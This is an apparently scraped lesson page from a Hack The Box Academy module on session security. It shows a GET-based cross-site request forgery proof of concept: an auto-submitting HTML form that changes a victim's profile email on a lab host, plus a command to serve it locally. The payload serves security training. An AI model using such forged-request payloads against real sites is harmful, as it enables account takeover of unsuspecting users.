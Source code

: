 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/153/section/1448
// Platform Version: V1
// Module ID: 153
// Module Name: Session Security
// Module Difficulty: Medium
// Section ID: 1448
// Section Title: Cross-Site Request Forgery (GET-based)
// Page Title: Session Security
// Page Number: 07
-->

# Cross-Site Request Forgery (GET-based)

**Module Name:** Session Security **Page Number:** 07

#### SESSION SECURITY

# Cross-Site Request Forgery (GET-based)

![https://academy.hackthebox.com/storage/modules/153/32.png](https://academy.hackthebox.com/storage/modules/153/32.png)

![https://academy.hackthebox.com/storage/modules/153/31.png](https://academy.hackthebox.com/storage/modules/153/31.png)

``` html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

``` shell-session
[!bash!]$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
```

![https://academy.hackthebox.com/storage/modules/153/34.png](https://academy.hackthebox.com/storage/modules/153/34.png)

# 

# 

#### Questions

####